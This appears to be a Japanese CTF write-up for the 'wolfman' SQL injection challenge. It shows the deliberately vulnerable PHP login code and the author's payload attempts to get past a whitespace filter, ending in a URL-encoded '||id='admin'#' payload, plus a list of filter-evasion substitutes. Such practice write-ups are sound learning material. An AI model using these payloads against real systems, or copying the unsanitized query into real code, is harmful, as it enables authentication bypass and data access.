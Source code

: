 # wolfman

## answer

- [orc](../src/orc.py)

## problem

```
query : select id from prob_wolfman where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=aaa
```

とすると

```
query : select id from prob_wolfman where id='guest' and pw='aaa'
```

となった。

コードを読んでいく。

```
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
```

whitespaceフィルターだ。
半角スペースはタブ文字`\t`か`\**\`で回避するのがセオリーなのはたまたま知っていた（やったことない）ので、
さっそくためしてみる。

```
?pw='\tor\tid='admin'#
```

```
?pw='\**\or\**\id='admin'#  
```

上手くいかんな、、、

orの代わりに||を使ってみる作戦でいくか

```
?pw='||id='admin'#
```

行けない。

url encodeしてみる。

```
?pw='%7C%7Cid%3D'admin'%23
```

できた。

原因は`#`をurl encodeするかどうかだった。

## supplementary

いろんな文字がフィルターされたときの代替文字（CTF界伝説のサイト、[こちら](https://graneed.hatenablog.com/entry/2018/10/26/232304)を参照）

- ' : "
- = : STRCMPとis not TRUE
- admin : "admi" "n" を文字列結合

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [BSides Delhi CTF 2018 Write up | こんとろーるしーこんとろーるぶい](https://graneed.hatenablog.com/entry/2018/10/26/232304)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)